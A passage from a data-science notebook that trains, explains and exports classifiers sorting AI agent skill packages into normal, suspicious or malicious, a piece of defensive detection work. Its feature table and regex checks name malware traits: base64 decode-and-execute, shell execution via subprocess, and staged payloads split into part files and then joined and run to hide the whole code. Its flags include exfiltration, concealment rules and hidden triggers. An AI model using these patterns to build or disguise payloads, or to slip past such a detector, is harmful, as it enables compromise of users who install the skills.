    drop = np.empty(len(group_list))
    for ch, r in zip(chunks, res):
        for (gnum, _), v in zip(ch, r):
            drop[gnum] = v
    group_tables[name] = (pd.DataFrame({"group": [group_label(ix) for ix in group_list],
                                        "members": [len(ix) for ix in group_list],
                                        "F1 drop": drop,
                                        "all members": [", ".join(names[ix]) for ix in group_list]})
                          .sort_values("F1 drop", ascending=False).reset_index(drop=True))
    print(f"{name:14s} {len(group_list):,} groups in {time.time() - t0:.0f}s")

Decision Tree  4,371 groups in 41s
SVM            4,371 groups in 38s


In [ ]:
# Short labels for groups with 2+ members, written from their members. Key = a member that only that group contains.
# Single features keep their own name. A multi-member group without an entry here is shown by its 3 most frequent
# members, so check the "all members" tables below and add an entry when a new group appears in a top 10.
GROUP_LABELS = {
    "b64decode":  "Encoded payload: base64 decode & execute",
    "subprocess": "Shell command execution via subprocess",
    "_load":      "Multi-part file loading & reassembly",
    "__main__":   "Standalone Python script structure",
}


def readable_label(row):
    members = row["all members"].split(", ")
    if len(members) == 1:
        return members[0]
    for key, label in GROUP_LABELS.items():
        if key in members:
            return f"{label} ({len(members)} features)"
    return row["group"]


for name in group_tables:
    group_tables[name]["label"] = group_tables[name].apply(readable_label, axis=1)

fig, axes = plt.subplots(2, 2, figsize=(18, 9.5))
for ax, name in zip(axes.ravel(), group_tables):
    t = group_tables[name].head(10)[::-1]
    ax.barh(t["label"], t["F1 drop"], color=PI_COLORS[name], height=0.65) # type: ignore
    ax.set_xlabel("drop in test macro F1 (whole group shuffled together)"); ax.grid(axis="y", visible=False)
    ax.set_title(f"{name} – top 10 features / feature groups")
for ax in axes.ravel()[len(group_tables):]:
    ax.set_visible(False)
fig.tight_layout()
save(fig, "09_grouped_permutation")

pd.set_option("display.max_colwidth", 200)
for name in group_tables:
    print(f"\n==================== {name}: top 10 ====================")
    display(group_tables[name].head(10)[["label", "members", "F1 drop", "all members"]].round(4))

### 7.4 What the top groups mean in the code

The grouped permutation (7.3) shows *that* the models rely on some code patterns. This cell checks *how often* each
pattern appears in each class, using the skill text with only the generator notes removed (no placeholders, so the real
code is searched).

| Pattern | What it is |
|---|---|
| `subprocess` | Python runs a shell command (e.g. `chmod`, `curl`) |
| `check=False` | an option of `subprocess.run(...)`: if the command fails, carry on silently instead of stopping with an error |
| `b64decode` | decodes base64 text back into readable text / code |
| `exec(` / `compile(` | runs text as Python code |
| part files (`part1`, `part2`, ...) | code split into several small files |
| part files + join + exec | the **staged payload** pattern: the pieces are read, joined back together and executed, so no single file contains the whole (malicious) code |

The last table repeats the `check=False` check **only among skills that use subprocess**, to see whether `check=False`
adds anything beyond "the skill runs shell commands".

In [ ]:
txt = df["full_no_notes"]
has = lambda pattern: txt.str.contains(pattern, regex=True)

checks = pd.DataFrame({
    "uses subprocess":               has(r"\bsubprocess\b"),
    "subprocess with check=False":   has(r"\bcheck\s*=\s*False\b"),
    "base64 decoding (b64decode)":   has(r"b64decode"),
    "exec( / compile( of code":      has(r"\bexec\s*\(|\bcompile\s*\("),
    "part files (part1, part2, ...)": has(r"\bpart\d+\b"),
})
checks["staged payload (parts + join + exec)"] = (checks["part files (part1, part2, ...)"] & has(r"\.join\(")
                                                  & checks["exec( / compile( of code"])

pattern_rates = (checks.groupby(df["judgment"]).mean().T * 100)[LABELS].round(1)
pattern_rates.columns = [f"% {c}" for c in LABELS]
pattern_rates["n skills"] = checks.sum()
display(pattern_rates)

uses_sub = checks["uses subprocess"]
cond = (checks.loc[uses_sub, "subprocess with check=False"].groupby(df.loc[uses_sub, "judgment"]).mean() * 100)
print("Among skills that use subprocess: % that also use check=False")
print(cond.reindex(LABELS).round(1).to_string())
print("Skills that use subprocess, per class:", df.loc[uses_sub, "judgment"].value_counts().reindex(LABELS).to_dict())

### 7.5 SHAP values (explaining the selected model)

**Why, in addition to Gini and permutation:** permutation importance asks *"how much worse does the model get if this
feature is broken?"*. A model with many backup cues (like XGBoost) loses almost nothing when any single feature is
broken, so every answer is small. **SHAP** asks a different question: *"for each skill, how much did each feature push
the prediction towards or away from each class?"*. It shares the credit fairly between the features that were used
(Shapley values from game theory), so features that back each other up each get their share instead of ~0.

* **Sign:** a positive value pushes the skill **towards** that class, a negative value pushes it **away**.
* **Units:** the model's raw score (log-odds for XGBoost and the Random Forest/Decision Tree class score, the decision
  score for the SVM). Compare features **within one model**, not the numbers across models.
* **How it is computed:** XGBoost has exact SHAP (TreeSHAP) built in, so no extra package is needed. The linear SVM
  uses the exact formula for linear models: coefficient × (value − training mean). The Decision Tree / Random Forest
  use the `shap` package (`pip install shap`). Naive Bayes and KNN are not explained.
* Computed on the **test set**, for the model chosen by cross-validation (`SHAP_MODELS`; add other models to compare).

Three outputs per model:
1. **Top 20 features** by average |SHAP value|, each bar split by class (which class the feature informs).
2. **Direction table:** in the test skills that *contain* the feature, its average push towards each class. This
   answers "does having this feature make a skill look more normal, suspicious or malicious?".
3. **Grouped SHAP** using the same correlated groups and labels as 7.3. SHAP values add up, so a group's value for a
   skill is the sum of its members' values.

In [ ]:
SHAP_MODELS = [best_name]          # the model chosen by CV; e.g. add "SVM" or "Random Forest" to compare
NO_SHAP = {"Baseline", "Naive Bayes", "KNN"}


def shap_values_for(name):
    """SHAP values on the test set: {class label: array (test skills x features)}."""
    pipe = final_models[name]; clf = pipe.named_steps["clf"]
    Xs = sp.csr_matrix(pipe.named_steps["features"].transform(X_test)).astype(np.float32)
    if isinstance(clf, XGBoostText):
        import xgboost as xgb
        # exact TreeSHAP built into XGBoost; missing=0.0 exactly as in training
        contrib = clf.model_.get_booster().predict(xgb.DMatrix(Xs, missing=0.0), pred_contribs=True)
        return {lab: contrib[:, k, :-1] for k, lab in enumerate(clf.classes_)}   # last column = base value
    if isinstance(clf, LinearSVC):
        # exact SHAP of a linear model: coefficient x (value - training mean)
        mean = np.asarray(sp.csr_matrix(pipe.named_steps["features"].transform(X_train)).mean(axis=0)).ravel()
        Xd = Xs.toarray()
        return {lab: (Xd - mean) * clf.coef_[k] for k, lab in enumerate(clf.classes_)}
    import shap                                                               # Decision Tree / Random Forest
    sv = shap.TreeExplainer(clf).shap_values(Xs.toarray(), check_additivity=False)
    sv = np.stack(sv, axis=-1) if isinstance(sv, list) else np.asarray(sv)    # -> (skills, features, classes)
    return {lab: sv[:, :, k] for k, lab in enumerate(clf.classes_)}


shap_results = {}
for name in SHAP_MODELS:
    if name in NO_SHAP or name not in final_models:
        print(f"{name}: not explained with SHAP, skipped."); continue
    t0 = time.time()
    try:
        shap_results[name] = shap_values_for(name)
    except ImportError:
        print(f"{name}: needs the shap package (pip install shap, then restart the kernel), skipped."); continue
    print(f"{name}: SHAP values for {len(X_test):,} test skills × {shap_results[name][LABELS[0]].shape[1]:,} "
          f"features in {time.time() - t0:.0f}s")

In [ ]:
shap_tables = {}
for name, sv in shap_results.items():
    names_m = feature_names(final_models[name])
    per_class = pd.DataFrame({lab: np.abs(sv[lab]).mean(axis=0) for lab in LABELS}, index=names_m)
    per_class["total"] = per_class[LABELS].sum(axis=1)
    per_class = per_class.sort_values("total", ascending=False)
    shap_tables[name] = per_class
    top = per_class.head(20)[::-1]

    fig, ax = plt.subplots(figsize=(8, 5.6))
    left = np.zeros(len(top))
    for lab in LABELS:
        ax.barh(top.index, top[lab], left=left, color=CLASS_COLORS[lab], height=0.65, label=lab) # type: ignore
        left += top[lab].values
    ax.set_xlabel("mean |SHAP value| (split by class)"); ax.grid(axis="y", visible=False)
    ax.legend(loc="lower right", title="pushes the score of")
    ax.set_title(f"{name} – top 20 features (SHAP)")
    save(fig, f"10_shap_{name.lower().replace(' ', '_')}")

    # direction: average push towards each class, in the test skills that CONTAIN the feature
    Xc = sp.csc_matrix(final_models[name].named_steps["features"].transform(X_test))
    col = {f: j for j, f in enumerate(names_m)}
    rows = {}
    for f in per_class.index[:20]:
        j = col[f]
        present = Xc[:, j].toarray().ravel() > 0
        rows[f] = {"% of test skills with it": 100 * present.mean(),
                   **{f"push → {lab}": (sv[lab][present, j].mean() if present.any() else np.nan) for lab in LABELS}}
    direction = pd.DataFrame(rows).T
    direction["points to"] = direction[[f"push → {lab}" for lab in LABELS]].idxmax(axis=1).str.replace("push → ", "")
    print(f"{name}: average SHAP push in the skills that contain each feature (+ = towards, − = away from that class)")
    display(direction.round(3))
    flag_rows = per_class.loc[[f for f in per_class.index if f.startswith("[flag]")]]
    print("Flags (rank among all features):",
          ", ".join(f"{f.replace('[flag] ', '')} #{per_class.index.get_loc(f) + 1}" for f in flag_rows.index))

In [ ]:
# Grouped SHAP: same groups and labels as 7.3 (run 7.3 first). A group's SHAP value for a skill = sum of its members'.
shap_group_tables = {}
for name, sv in shap_results.items():
    assert (feature_names(final_models[name]) == names).all()
    rows = []
    for ix in group_list:
        rows.append({"group": group_label(ix), "members": len(ix), "all members": ", ".join(names[ix]),
                     **{lab: np.abs(sv[lab][:, ix].sum(axis=1)).mean() for lab in LABELS}})
    g = pd.DataFrame(rows)
    g["mean |SHAP|"] = g[LABELS].sum(axis=1)
    g = g.sort_values("mean |SHAP|", ascending=False).reset_index(drop=True)
    g["label"] = g.apply(readable_label, axis=1)
    shap_group_tables[name] = g

    top = g.head(10)[::-1]
    fig, ax = plt.subplots(figsize=(9, 5))
    left = np.zeros(len(top))
    for lab in LABELS:
        ax.barh(top["label"], top[lab], left=left, color=CLASS_COLORS[lab], height=0.65, label=lab) # type: ignore
        left += top[lab].values
    ax.set_xlabel("mean |SHAP value| of the whole group (split by class)"); ax.grid(axis="y", visible=False)
    ax.legend(loc="lower right", title="pushes the score of")
    ax.set_title(f"{name} – top 10 features / feature groups (SHAP)")
    save(fig, f"11_shap_groups_{name.lower().replace(' ', '_')}")
    display(g.head(10)[["label", "members", "mean |SHAP|", *LABELS, "all members"]].round(4))

**SHAP per class.** The model has one score per class, so every feature has a SHAP value for normal, for suspicious
and for malicious. The charts below rank the features **separately for each class**, in two ways:

* **Importance for the class:** average |SHAP| for that class's score. Which features the model uses most to decide
  *this* class. A feature can rank high here because its *absence* matters (e.g. "no script" for normal).
* **Pushes towards the class when present:** the average SHAP value for that class in the test skills that *contain*
  the feature (positive = makes the skill look more like this class). Features in fewer than `MIN_PRESENT` test skills
  are left out, because an average over a handful of skills is not reliable. This is the easiest one to report:
  "the presence of X makes a skill look malicious".

Both are shown for single features and for the correlated groups of 7.3 (a group is *present* when any member is).

In [ ]:
TOP_K = 10
MIN_PRESENT = 10      # a feature / group must appear in at least 10 test skills for the "push" charts


def per_class_charts(values, present, item_names, model, what, fig_name):
    """values = {class: (test skills x items) SHAP}, present = (test skills x items) bool."""
    n_present = present.sum(axis=0)
    for kind in ["importance", "push"]:
        fig, axes = plt.subplots(1, 3, figsize=(20, 4.8))
        table = {}
        for ax, lab in zip(axes, LABELS):
            v = values[lab]
            if kind == "importance":
                s = pd.Series(np.abs(v).mean(axis=0), index=item_names)
                xlabel = f"mean |SHAP| for the '{lab}' score"
            else:
                with np.errstate(invalid="ignore", divide="ignore"):
                    avg = np.where(n_present >= MIN_PRESENT, (v * present).sum(axis=0) / n_present, np.nan)
                s = pd.Series(avg, index=item_names)
                xlabel = f"average push towards '{lab}' when present"
            s = s.dropna().sort_values(ascending=False).head(TOP_K)
            table[lab] = [f"{k}  ({x:.3f})" for k, x in s.items()]
            t = s[::-1]
            ax.barh(t.index, t.values, color=CLASS_COLORS[lab], height=0.65) # type: ignore
            ax.set_xlabel(xlabel); ax.grid(axis="y", visible=False); ax.set_title(lab)
        title = "importance for each class" if kind == "importance" else "pushes towards each class when present"
        fig.suptitle(f"{model} – top {TOP_K} {what}: {title} (SHAP)", x=0.01, ha="left", fontweight="bold", y=1.03)
        fig.tight_layout()
        save(fig, f"{fig_name}_{kind}")
        print(f"{model} – {what}: {title}")
        display(pd.DataFrame(table, index=range(1, TOP_K + 1)))


shap_per_class = {}
for name, sv in shap_results.items():
    tag = name.lower().replace(" ", "_")
    Xc = sp.csc_matrix(final_models[name].named_steps["features"].transform(X_test))
    present = (Xc > 0).toarray()
    per_class_charts(sv, present, feature_names(final_models[name]), name, "features", f"12_shap_per_class_{tag}")

    # the same for the correlated groups of 7.3 (labels from GROUP_LABELS)
    g_vals = {lab: np.column_stack([sv[lab][:, ix].sum(axis=1) for ix in group_list]) for lab in LABELS}
    g_present = np.column_stack([present[:, ix].any(axis=1) for ix in group_list])
    g_names = [readable_label({"all members": ", ".join(names[ix]), "group": group_label(ix)}) for ix in group_list]
    per_class_charts(g_vals, g_present, g_names, name, "features / feature groups", f"13_shap_groups_per_class_{tag}")
    shap_per_class[name] = {"group values": g_vals, "group present": g_present, "group names": g_names}

### 7.6 Permutation importance of the stacking model (6.5)

A stack has no Gini / gain importance and no exact SHAP values, but **permutation importance works for any model**:
it only needs the model's predictions. Both parts use scikit-learn's `permutation_importance` on the test set, with
the same settings as 7.2 (`PI_REPEATS` = 5 repeats, macro F1, same random seed), so the numbers are comparable.

* **Single features (like 7.2).** The stack is wrapped as one classifier on the feature matrix (`StackOnFeatures`):
  shuffle a feature → every base model re-scores the skills → the level-1 model predicts → drop in macro F1.
  Nothing is retrained. All base models learned the same TF-IDF vocabulary, so one feature matrix fits them all.
* **Feature groups (like 7.3, the main result).** Same groups and labels as 7.3 (run 7.3 first).
  `permutation_importance` shuffles one input column at a time, so the input is a table of **row numbers** with one
  column per group (`GroupShuffleStack`). Shuffling a column gives every member of that group the same row shuffle,
  exactly as in 7.3.

The stack explained is the one with the higher **CV** macro F1 in 6.5 (`STACK_TO_EXPLAIN`, chosen on training data
only, like the model in 6.3). Each part runs one full stack prediction per feature (or group) and repeat, so it is
slow: the cell prints an estimate first (the all-6 stack is about twice as slow as the top 4 because of KNN).
`EXPLAIN_STACK = False` skips the section. The results are added to `perms` and `group_tables`, so Section 9 saves
them with the other models. As with XGBoost, single-feature drops will be small, since the stack has many backup
cues; the grouped version is the one to report.

In [ ]:
EXPLAIN_STACK = True        # False = skip 7.6 (it takes roughly 30-60 minutes per part, see the estimate printed below)
# the stack with the higher CV macro F1 in 6.5 (training data only, like the model choice in 6.3); or set it by name
STACK_TO_EXPLAIN = max(stack_rows, key=lambda s: stack_rows[s]["CV macro F1"])
STACK_COLOR = SERIES[3]


def base_scores(clf, X):
    """Per-class scores of one base model, the same kind as in 6.5 (probabilities or SVM decision scores)."""
    return clf.predict_proba(X) if hasattr(clf, "predict_proba") else clf.decision_function(X)


class StackOnFeatures(ClassifierMixin, BaseEstimator):
    """The fitted stack (base models from 6.2 + level-1 model from 6.5) as ONE classifier on the feature matrix
    (TF-IDF + flags), so scikit-learn's permutation_importance can shuffle its features. Nothing is retrained."""

    def __init__(self, base_clfs=None, meta=None):
        self.base_clfs = base_clfs
        self.meta = meta

    def fit(self, X=None, y=None):          # already fitted; only sets what scikit-learn expects
        self.classes_ = self.meta.classes_
        return self

    def predict(self, X):
        return self.meta.predict(np.hstack([base_scores(clf, X) for clf in self.base_clfs]))


if EXPLAIN_STACK:
    members = STACKS[STACK_TO_EXPLAIN]
    for m in members:   # every base model learned the same TF-IDF vocabulary -> one feature matrix fits them all
        assert (feature_names(final_models[m]) == feature_names(final_models[members[0]])).all()
    stack_est = StackOnFeatures([final_models[m].named_steps["clf"] for m in members],
                                stack_models[STACK_TO_EXPLAIN]).fit()
    stack_names = feature_names(final_models[members[0]])
    Xt_dense = final_models[members[0]].named_steps["features"].transform(X_test)
    Xt_dense = Xt_dense.toarray() if sp.issparse(Xt_dense) else np.asarray(Xt_dense)
    assert (stack_est.predict(Xt_dense) == stack_preds[STACK_TO_EXPLAIN]).all()   # same predictions as 6.5

    t0 = time.time(); stack_est.predict(Xt_dense); one = time.time() - t0
    n_cores = joblib.cpu_count() if N_JOBS == -1 else N_JOBS
    est_min = one * len(stack_names) * PI_REPEATS / n_cores / 60   # measured: the real run takes 1-2x this
    print(f"{STACK_TO_EXPLAIN} ({', '.join(members)}): one prediction of the test set takes {one:.2f}s -> "
          f"about {est_min:.0f}-{2 * est_min:.0f} minutes for {len(stack_names):,} features x {PI_REPEATS} repeats "
          f"on {n_cores} cores")

    t0 = time.time()
    r = permutation_importance(stack_est, Xt_dense, y_test, scoring="f1_macro", n_repeats=PI_REPEATS,
                               random_state=RANDOM_STATE, n_jobs=N_JOBS)
    print(f"done in {(time.time() - t0) / 60:.1f} minutes")
    perm_stack = pd.Series(r.importances_mean, index=stack_names).sort_values(ascending=False)
    perms[STACK_TO_EXPLAIN] = perm_stack            # also saved by Section 9 with the other models
    plot_permutation(perm_stack, STACK_TO_EXPLAIN, STACK_COLOR, "14_stack_permutation")
    display(pd.DataFrame({name: [f"{k}  ({v:.3f})" for k, v in p.head(10).items()] for name, p in perms.items()},
                         index=range(1, 11)))
else:
    print("EXPLAIN_STACK = False: Section 7.6 skipped.")


In [ ]:
class GroupShuffleStack(ClassifierMixin, BaseEstimator):
    """Lets scikit-learn's permutation_importance shuffle a whole GROUP of features (7.3 groups) at once.

    Its input R has one column per group, holding ROW NUMBERS: R[i, g] = the test skill whose values group g takes in
    row i. Unshuffled, every column is 0, 1, ..., n-1, so the features are the real ones. permutation_importance
    shuffles one column of R at a time = every member of that group gets the same row shuffle (as in 7.3).
    """

    def __init__(self, stack=None, X=None, groups=None):
        self.stack = stack
        self.X = X
        self.groups = groups

    def fit(self, R=None, y=None):
        self.classes_ = self.stack.classes_
        return self

    def predict(self, R):
        identity = np.arange(R.shape[0])
        changed = np.flatnonzero((R != identity[:, None]).any(axis=0))     # normally the one shuffled group
        X = self.X
        if len(changed):
            X = X.copy()
            for g in changed:
                cols = self.groups[g]
                X[:, cols] = self.X[np.ix_(R[:, g], cols)]
        return self.stack.predict(X)


if EXPLAIN_STACK:
    assert (stack_names == names).all()             # same features as the groups of 7.3
    group_est = GroupShuffleStack(stack_est, Xt_dense, group_list).fit()
    R = np.tile(np.arange(len(Xt_dense), dtype=np.int32)[:, None], (1, len(group_list)))
    assert (group_est.predict(R) == stack_preds[STACK_TO_EXPLAIN]).all()
    est_min = one * len(group_list) * PI_REPEATS / n_cores / 60
    print(f"{STACK_TO_EXPLAIN}: {len(group_list):,} groups -> about {est_min:.0f}-{2 * est_min:.0f} minutes")

    t0 = time.time()
    r = permutation_importance(group_est, R, y_test, scoring="f1_macro", n_repeats=PI_REPEATS,
                               random_state=RANDOM_STATE, n_jobs=N_JOBS)
    print(f"done in {(time.time() - t0) / 60:.1f} minutes")
    stack_groups = (pd.DataFrame({"group": [group_label(ix) for ix in group_list],
                                  "members": [len(ix) for ix in group_list],
                                  "F1 drop": r.importances_mean,
                                  "all members": [", ".join(names[ix]) for ix in group_list]})
                    .sort_values("F1 drop", ascending=False).reset_index(drop=True))
    stack_groups["label"] = stack_groups.apply(readable_label, axis=1)
    group_tables[STACK_TO_EXPLAIN] = stack_groups   # also saved by Section 9 with the other models

    t = stack_groups.head(10)[::-1]
    fig, ax = plt.subplots(figsize=(9, 5))
    ax.barh(t["label"], t["F1 drop"], color=STACK_COLOR, height=0.65)  # type: ignore
    ax.set_xlabel("drop in test macro F1 (whole group shuffled together)"); ax.grid(axis="y", visible=False)
    ax.set_title(f"{STACK_TO_EXPLAIN} – top 10 features / feature groups")
    save(fig, "15_stack_grouped_permutation")
    display(stack_groups.head(10)[["label", "members", "F1 drop", "all members"]].round(4))

    # the stack next to the single models: top 10 groups of each
    display(pd.DataFrame({name: [f"{lab}  ({v:.3f})" for lab, v in zip(t_["label"].head(10), t_["F1 drop"].head(10))]
                          for name, t_ in group_tables.items()}, index=range(1, 11)))


### 7.7 Permutation importance of the second stacking model

Section 7.6 explains the stack chosen by CV (`STACK_TO_EXPLAIN`). This section does exactly the same for the
**other** stack (`SECOND_STACK`, normally the one with all 6 models), so both stacks can be compared: same wrappers
(`StackOnFeatures`, `GroupShuffleStack`), same `permutation_importance` settings, same 7.3 groups and labels.
Run 7.6 first (it defines the wrappers; its own computation can be switched off with `EXPLAIN_STACK = False`).

The all-6 stack includes KNN, so it is the slowest: the cells print an estimate before starting.
`EXPLAIN_SECOND_STACK = False` skips this section. The results are added to `perms` and `group_tables`, so
Section 9 saves them with the other models.

In [ ]:
EXPLAIN_SECOND_STACK = True   # False = skip 7.7 (all 6 models incl. KNN: roughly 1-2 hours per part)
# the stack NOT explained in 7.6 (normally the all-6 stack)
SECOND_STACK = next(s for s in STACKS if s != STACK_TO_EXPLAIN)
SECOND_COLOR = SERIES[2]
second_slug = "all6" if "all 6" in SECOND_STACK else "top4"

if EXPLAIN_SECOND_STACK:
    members2 = STACKS[SECOND_STACK]
    names2 = feature_names(final_models[members2[0]])
    for m in members2:   # same TF-IDF vocabulary in every base model -> one feature matrix fits them all
        assert (feature_names(final_models[m]) == names2).all()
    stack_est2 = StackOnFeatures([final_models[m].named_steps["clf"] for m in members2],
                                 stack_models[SECOND_STACK]).fit()
    Xt2 = final_models[members2[0]].named_steps["features"].transform(X_test)
    Xt2 = Xt2.toarray() if sp.issparse(Xt2) else np.asarray(Xt2)
    assert (stack_est2.predict(Xt2) == stack_preds[SECOND_STACK]).all()   # same predictions as 6.5

    t0 = time.time(); stack_est2.predict(Xt2); one2 = time.time() - t0
    n_cores = joblib.cpu_count() if N_JOBS == -1 else N_JOBS
    est_min = one2 * len(names2) * PI_REPEATS / n_cores / 60   # measured: the real run takes 1-2x this
    print(f"{SECOND_STACK} ({', '.join(members2)}): one prediction of the test set takes {one2:.2f}s -> "
          f"about {est_min:.0f}-{2 * est_min:.0f} minutes for {len(names2):,} features x {PI_REPEATS} repeats "
          f"on {n_cores} cores")

    t0 = time.time()
    r = permutation_importance(stack_est2, Xt2, y_test, scoring="f1_macro", n_repeats=PI_REPEATS,
                               random_state=RANDOM_STATE, n_jobs=N_JOBS)
    print(f"done in {(time.time() - t0) / 60:.1f} minutes")
    perm_stack2 = pd.Series(r.importances_mean, index=names2).sort_values(ascending=False)
    perms[SECOND_STACK] = perm_stack2               # also saved by Section 9 with the other models
    plot_permutation(perm_stack2, SECOND_STACK, SECOND_COLOR, f"16_stack_{second_slug}_permutation")
    display(pd.DataFrame({name: [f"{k}  ({v:.3f})" for k, v in p.head(10).items()] for name, p in perms.items()},
                         index=range(1, 11)))
else:
    print("EXPLAIN_SECOND_STACK = False: Section 7.7 skipped.")


In [ ]:
if EXPLAIN_SECOND_STACK:
    assert (names2 == names).all()                  # same features as the groups of 7.3
    group_est2 = GroupShuffleStack(stack_est2, Xt2, group_list).fit()
    R = np.tile(np.arange(len(Xt2), dtype=np.int32)[:, None], (1, len(group_list)))
    assert (group_est2.predict(R) == stack_preds[SECOND_STACK]).all()
    est_min = one2 * len(group_list) * PI_REPEATS / n_cores / 60
    print(f"{SECOND_STACK}: {len(group_list):,} groups -> about {est_min:.0f}-{2 * est_min:.0f} minutes")

    t0 = time.time()
    r = permutation_importance(group_est2, R, y_test, scoring="f1_macro", n_repeats=PI_REPEATS,
                               random_state=RANDOM_STATE, n_jobs=N_JOBS)
    print(f"done in {(time.time() - t0) / 60:.1f} minutes")
    stack_groups2 = (pd.DataFrame({"group": [group_label(ix) for ix in group_list],
                                   "members": [len(ix) for ix in group_list],
                                   "F1 drop": r.importances_mean,
                                   "all members": [", ".join(names[ix]) for ix in group_list]})
                     .sort_values("F1 drop", ascending=False).reset_index(drop=True))
    stack_groups2["label"] = stack_groups2.apply(readable_label, axis=1)
    group_tables[SECOND_STACK] = stack_groups2      # also saved by Section 9 with the other models

    t = stack_groups2.head(10)[::-1]
    fig, ax = plt.subplots(figsize=(9, 5))
    ax.barh(t["label"], t["F1 drop"], color=SECOND_COLOR, height=0.65)  # type: ignore
    ax.set_xlabel("drop in test macro F1 (whole group shuffled together)"); ax.grid(axis="y", visible=False)
    ax.set_title(f"{SECOND_STACK} – top 10 features / feature groups")
    save(fig, f"17_stack_{second_slug}_grouped_permutation")
    display(stack_groups2.head(10)[["label", "members", "F1 drop", "all members"]].round(4))

    # both stacks next to the single models: top 10 groups of each
    display(pd.DataFrame({name: [f"{lab}  ({v:.3f})" for lab, v in zip(t_["label"].head(10), t_["F1 drop"].head(10))]
                          for name, t_ in group_tables.items()}, index=range(1, 11)))


## 8. Export the  Model (for the Flask API)

Saves the model the API uses with `joblib`. `EXPORT_MODEL` picks it:

- **`"Stack (all 6)"`** (default): the stacked model of Section 6.5. The file holds the 6 trained base pipelines
  (TF-IDF + classifier each), the level-1 logistic regression and the order of its inputs. Run Section 6.5 first.
- a single model's name (e.g. `"XGBoost"`) or `best_name`: one pipeline, as before.

Normalisation is applied before the model. The REST API loads the file once at start-up and calls `predict_skill()`
for each upload. `predict_with_bundle()` works for both kinds of file, so the API does not need to know which one
it got.

In [25]:
EXPORT_MODEL = "Stack (all 6)"   # a stack from Section 6.5, or a single model's name, e.g. best_name

if EXPORT_MODEL in STACKS and EXPORT_MODEL not in globals().get("stack_models", {}):
    print(f"{EXPORT_MODEL} not trained (run Section 6.5 first) -> exporting the best single model instead")
    EXPORT_MODEL = best_name
METRIC_KEYS = ["accuracy", "macro F1", "macro recall", "macro precision"]

if EXPORT_MODEL in globals().get("stack_models", {}):
    members = STACKS[EXPORT_MODEL]
    artifact = {
        "kind": "stack",
        "base_pipelines": {m: final_models[m] for m in members},        # level 0, trained in 6.2
        "members": members,                                              # input order of the level-1 model
        "score_methods": {m: score_method(final_models[m]) for m in members},
        "meta": stack_models[EXPORT_MODEL],                              # level 1, trained in 6.5
        "test_metrics": {k: round(float(stack_rows[EXPORT_MODEL][k]), 4) for k in METRIC_KEYS},
    }
else:
    artifact = {
        "kind": "single",
        "pipeline": final_models[EXPORT_MODEL],
        "test_metrics": results.loc[EXPORT_MODEL, METRIC_KEYS].astype(float).round(4).to_dict(),  # type: ignore
    }
artifact.update({"model_name": EXPORT_MODEL, "labels": LABELS, "text_input": TEXT_COL, "flag_cols": FLAG_COLS,
                 "created": time.strftime("%Y-%m-%d %H:%M")})


def predict_with_bundle(bundle, X):
    """Labels for a DataFrame X (text column + flags), for a single model or a stack."""
    if bundle["kind"] == "stack":
        Z = np.hstack([getattr(bundle["base_pipelines"][m], bundle["score_methods"][m])(X)
                       for m in bundle["members"]])
        with np.errstate(all="ignore"):   # harmless matmul warnings of numpy on macOS (as in 6.5)
            return bundle["meta"].predict(Z)
    return bundle["pipeline"].predict(X)


# the exported model must give exactly the test predictions of Sections 6.3 / 6.5
expected = stack_preds[EXPORT_MODEL] if artifact["kind"] == "stack" else test_preds[EXPORT_MODEL]
assert (predict_with_bundle(artifact, X_test) == np.asarray(expected)).all()

out_path = MODEL_DIR / "skill_classifier.joblib"
joblib.dump(artifact, out_path)
size_mb = out_path.stat().st_size / 1e6
print(f"Saved {EXPORT_MODEL} ({artifact['kind']}) -> {out_path}  ({size_mb:.1f} MB)  test: {artifact['test_metrics']}")
if size_mb > 90:
    print("Warning: over 90 MB. GitHub refuses files over 100 MB, so add this file to .gitignore or use Git LFS.")


def predict_skill(skill_md: str, other_files: Optional[dict] = None,
                  model_path=out_path) -> dict:
    # Classify an uploaded skill: SKILL.md text plus optional {filename: text} for scripts.
    bundle = joblib.load(model_path)
    other_files = other_files or {}
    parts = [skill_md] + [f"\n### FILE: {n}\n{t}" for n, t in other_files.items()]
    flags = flags_from_files({"SKILL.md": skill_md, **other_files})
    row = pd.DataFrame([{bundle["text_input"]: normalize_text("\n".join(parts)),
                         **{f: flags[f] for f in bundle["flag_cols"]}}])
    return {"label": str(predict_with_bundle(bundle, row)[0]), "model": bundle["model_name"], "flags": flags}

# demo on a few test cases, read from their folders the way the API would receive them
for _, row in test_df.head(3).iterrows():
    files = {k: v for k, v in read_case_files(row["id"]).items() if v is not None}
    skill_key = next(k for k in files if k.lower() == "skill.md")
    print(row["id"], predict_skill(files.pop(skill_key), files), "| true label:", row["judgment"])

Saved Stack (all 6) (stack) -> models_svc_flags_v2/skill_classifier.joblib  (46.7 MB)  test: {'accuracy': 0.9764, 'macro F1': 0.973, 'macro recall': 0.9763, 'macro precision': 0.97}
case_05533 {'label': 'malicious', 'model': 'Stack (all 6)', 'flags': {'has_hidden_trigger': 0, 'has_concealment_rule': 0, 'has_self_protection': 0, 'has_risky_setup_step': 0, 'has_staged_payload': 0, 'has_encoded_exec': 0, 'has_shell_exec': 0, 'has_exfiltration': 0, 'has_destructive_op': 0}} | true label: malicious
case_01609 {'label': 'malicious', 'model': 'Stack (all 6)', 'flags': {'has_hidden_trigger': 0, 'has_concealment_rule': 1, 'has_self_protection': 0, 'has_risky_setup_step': 0, 'has_staged_payload': 0, 'has_encoded_exec': 0, 'has_shell_exec': 0, 'has_exfiltration': 0, 'has_destructive_op': 0}} | true label: malicious
case_05093 {'label': 'normal', 'model': 'Stack (all 6)', 'flags': {'has_hidden_trigger': 0, 'has_concealment_rule': 0, 'has_self_protection': 0, 'has_risky_setup_step': 0, 'has_staged_

## 9. Save a results summary

Writes the scores and each model's permutation top 10 to CSV files, so this notebook's results can be compared side by
side with the other version (`skill_vulnerability_classifier_with_flags.ipynb` = before, `…_v2.ipynb` = after).

In [26]:
summary = results.loc[model_names, ["accuracy", "macro precision", "macro recall", "macro F1"]].copy()
summary.insert(0, "CV macro F1", cv_scores.reindex(model_names).astype(float))
summary.round(4).to_csv(MODEL_DIR / "summary_scores.csv")
top10_perm = pd.DataFrame({name: list(p.head(10).index) for name, p in perms.items()}, index=range(1, 11))
top10_perm.to_csv(MODEL_DIR / "top10_permutation.csv")
if "group_tables" in globals():
    pd.DataFrame({name: list(t["label" if "label" in t else "group"].head(10)) for name, t in group_tables.items()},
                 index=range(1, 11)).to_csv(MODEL_DIR / "top10_grouped_permutation.csv")
if "shap_group_tables" in globals():
    pd.DataFrame({name: list(t["label"].head(10)) for name, t in shap_group_tables.items()},
